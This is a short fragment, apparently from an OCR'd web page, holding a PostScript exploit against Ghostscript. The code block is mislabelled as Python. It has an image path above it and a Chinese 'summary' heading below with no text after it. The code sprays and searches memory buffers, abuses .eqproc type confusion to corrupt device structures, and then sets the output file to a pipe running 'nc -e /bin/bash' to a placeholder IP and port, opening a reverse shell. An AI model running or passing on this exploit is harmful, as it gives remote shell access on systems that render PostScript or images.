 ```python
    buffersearchvars 0 buffersearchvars 0 get 1 add put
    buffersearchvars 1 0 put
    buffersearchvars 2 0 put
    buffercount {
        buffers buffersearchvars 1 get get
        buffersizes buffersearchvars 1 get get
        16 sub get
        254 le {
            buffersearchvars 2 1 put
            buffersearchvars 3 buffers buffersearchvars 1 get get put
            buffersearchvars 4 buffersizes buffersearchvars 1 get get 16 sub put
        } if
        buffersearchvars 1 buffersearchvars 1 get 1 add put
    } repeat

    buffersearchvars 2 get 1 ge {
        exit
    } if
    %(.) print
} loop

.eqproc
.eqproc
.eqproc
sdevice 0
currentdevice
buffersearchvars 3 get buffersearchvars 4 get 16#7e put
buffersearchvars 3 get buffersearchvars 4 get 1 add 16#12 put
buffersearchvars 3 get buffersearchvars 4 get 5 add 16#ff put
put

buffersearchvars 0 get array aload

sdevice 0 get
16#3e8 0 put

sdevice 0 get
16#3b0 0 put

sdevice 0 get
16#3f0 0 put

currentdevice null false mark /OutputFile (%pipe%nc -e /bin/bash <ip> <port>)
.putdeviceparams
1 true .outputpage
.rsdparams
%{ } loop
0 0 .quit
%asdf
```



#### 【总结】**

